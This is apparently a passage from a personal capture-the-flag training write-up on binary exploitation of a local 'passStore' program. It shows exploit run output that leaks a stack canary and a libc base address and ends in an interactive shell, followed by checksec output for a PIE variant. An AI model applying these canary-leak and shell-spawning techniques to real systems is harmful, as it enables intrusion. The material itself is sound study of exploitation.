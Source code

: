 #### Result ver2

```shell
hjn4@LAPTOP-TEHHNDTG:/mnt/d/pwn_myself/pwn_from_blabla/training/chall_bof/passStore_NOPIE$ python3 exploit.py
[*] '/mnt/d/pwn_myself/pwn_from_blabla/training/chall_bof/passStore_NOPIE/passStore_NOPIE'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/usr/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loaded 6 cached gadgets for './passStore_NOPIE'
[+] Starting local process '/mnt/d/pwn_myself/pwn_from_blabla/training/chall_bof/passStore_NOPIE/passStore_NOPIE': pid 17374
b'Type the password: You typed aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\n'
[*] Leaked canary: 0x67c9f3b50b8b5800
b' You typed aaaaaaaaaaaaaaaaaaaaaaa\n'
0x7fe66ea595d6
[*] libc base addr : 0x7fe66ea59540
[*] Switching to interactive mode
$ ls
core        passStore_NOPIE     passStore_NOPIE.id2
exploit.py  passStore_NOPIE.id0  passStore_NOPIE.nam
leak.py     passStore_NOPIE.id1  passStore_NOPIE.til
$

```


_______________________________________________________________________________________________________________________________

## training-leak-pie-canary


[binary file and exploit code](https://github.com/Hjn4Pwn/Pwn/tree/main/pwn_from_blabla/training/chall_bof/passStore_PIE)


### file

```shell
hjn4@LAPTOP-TEHHNDTG:/mnt/d/pwn_myself/pwn_from_blabla/training/chall_bof/passStore_PIE$ file passStore_PIE
passStore_PIE: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=269e6bec9af906e772b2b3f1e0b2f1ea8e9aeaac, for GNU/Linux 3.2.0, not stripped

hjn4@LAPTOP-TEHHNDTG:/mnt/d/pwn_myself/pwn_from_blabla/training/chall_bof/passStore_PIE$ checksec passStore_PIE
[*] '/mnt/d/pwn_myself/pwn_from_blabla/training/chall_bof/passStore_PIE/passStore_PIE'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

```
